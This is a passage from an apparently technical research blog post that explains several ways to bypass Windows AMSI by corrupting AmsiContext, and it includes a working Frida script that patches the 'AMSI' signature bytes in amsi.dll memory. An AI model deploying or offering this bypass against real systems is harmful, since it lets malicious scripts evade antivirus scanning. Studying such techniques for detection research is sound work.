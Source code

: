 Each of these scripts takes a different approach towards the same result: the *AmsiContext* argument is somehow corrupted, causing *AmsiOpenSession()* to return E_INVALIDARG and set the *amsiInitFailed* variable to true. In each case, AMSI is then disabled for the lifetime of the process. Note that we used *AmsiOpenSession()* for a change of pace, but the control flow of *AmsiScanBuffer()* is very similar (almost the exact same checks are performed), so it would be easily applicable to that function with the same outcome.

## Hooking is not Patching

Coming up with a bunch of different ways to hook AMSI functions and break them with Frida is pretty cool, but it's not exactly portable. Any AMSI bypass that requires you to attach to a process with Frida is not exactly resilient. Ideally, we want something like the classic *AmsiScanBuffer()* patch we discussed earlier - a hassle-free way to corrupt AMSI in memory directly, without needing to hook into functions to do so.

The classic *AmsiScanBuffer()* patch works by simply short-circuiting the function and returning zero immediately, but we've seen that there's a wide variety of ways to make the function return E_INVALIDARG and disable AMSI that way. The easiest thing to break in the form of a code patch is the check which compares the first four bytes of *AmsiContext* to a hardcoded signature value of "AMSI". 

All we need to do is find the hardcoded signature in the code and change it to something else. Whenever *AmsiScanBuffer()* checks for the signature, it will be using the wrong value as a baseline for the comparison - and will always return an error. We can use Frida's memory scanning functionality to identify the exact sequence we're interested in modifying, and then modify it:

```javascript
var amsi = Process.getModuleByName("amsi.dll");

var amsiScanBuffer = amsi.getExportByName("AmsiScanBuffer");
var amsiEnd = amsi.base.add(amsi.size);

var size = amsiEnd.sub(amsiScanBuffer);
var sequence = "41 4D 53 49"; // 'AMSI'

Memory.scan(amsiScanBuffer, size.toInt32(), sequence, {
	onMatch(address, len) {
		console.log("Found 'AMSI' @ " + address);
		var oldProtect = Process.findRangeByAddress(address)["protection"];
		Memory.protect(address, 4, "rw-");
		console.log("Changed protections of target bytes");
		address.writeByteArray([0x31, 0x33, 0x33, 0x37]);
		console.log("Patched with '1337'");
		Memory.protect(address, 4, oldProtect);
		console.log("Restored memory protections");
	}
});
```

Or we could take a different approach entirely! We don't have to patch the code - we can patch the data, instead. As long as the process has scanned something with AMSI at least once, there will be a global variable stored somewhere on the heap that contains an *AmsiContext* object for future use. If we can find it, we can corrupt it:
